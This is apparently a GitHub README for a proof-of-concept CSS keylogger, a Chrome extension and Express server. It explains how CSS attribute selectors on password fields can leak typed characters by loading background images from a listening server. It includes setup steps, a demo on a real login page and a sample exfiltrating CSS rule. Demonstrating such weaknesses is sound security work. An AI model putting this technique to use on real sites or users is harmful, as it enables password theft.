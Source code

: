# CSS Keylogger

Chrome extension and Express server that exploits keylogging abilities of CSS.

## To use

### Setup Chrome extension

1. Download repository `git clone https://github.com/maxchehab/CSS-Keylogging`
2. Visit `chrome://extensions` in your browser (or open up the Chrome menu by clicking the icon to the far right of the Omnibox: The menu's icon is three horizontal bars. and select Extensions under the More Tools menu to get to the same place).
3. Ensure that the Developer mode checkbox in the top right-hand corner is checked.
4. Click `Load unpacked extension…` to pop up a file-selection dialog.
5. Select the `css-keylogger-extension` in the directory which you downloaded this repository.

### Setup Express server

1. `yarn`
2. `yarn start`

### Haxking l33t passw0rds

1. Open any website login page. [https://instagram.com](https://www.instagram.com/).
2. Press the extension `C` on the top right of any webpage.
3. Type your password.
4. Your password should be captured by the express server.

## How it works

This attack is really simple. Utilizing CSS attribute selectors, one can request resources from an external server under the premise of loading a `background-image`.

For example, the following css will select all input's with a `type` that equals `password` and a `value` that ends with `a`.
It will then try to load an image from `http://localhost:3000/a`.

```css
input[type="password"][value$="a"] {
  background-image: url("http://localhost:3000/a");
}
```

Using a simple [script](https://github.com/maxchehab/CSS-Keylogging/blob/master/build.go) one can create a [css file](https://github.com/maxchehab/CSS-Keylogging/blob/master/css-keylogger-extension/keylogger.css) that will send a custom request for every ASCII character.
